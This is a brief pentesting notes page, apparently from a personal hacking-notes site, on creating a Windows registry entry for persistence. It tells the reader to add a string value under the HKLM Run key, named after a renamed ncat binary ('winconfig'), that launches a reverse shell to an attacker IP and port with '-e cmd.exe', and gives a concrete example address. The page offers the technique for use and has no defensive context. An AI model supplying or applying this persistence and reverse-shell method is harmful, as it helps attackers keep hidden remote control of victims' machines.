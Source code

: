 ```yaml
---
title: Create a Registry
author: amandaguglieri
draft: false
TableOfContents: true
tag: #pentesting #privilegeescalation
---
```


# Create a Registry

Registries in the victim machine may be used to save a connection to the attacker machine.

### Regedit

```
Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

Right-Button > New > String value

We name it exactly like the ncat.exe file (if we renamed it to winconfig, then we call this registry winconfig>

We edit the registry and we add the path to the executable file and some commands  in the Value data:

“C:\Windows/System32\winconfig.exe <attacker IP> <port> -e cmd.exe”

For instance: “C:\Windows/System32\winconfig.exe 192.168.1.50 5540 -e cmd.exe”
```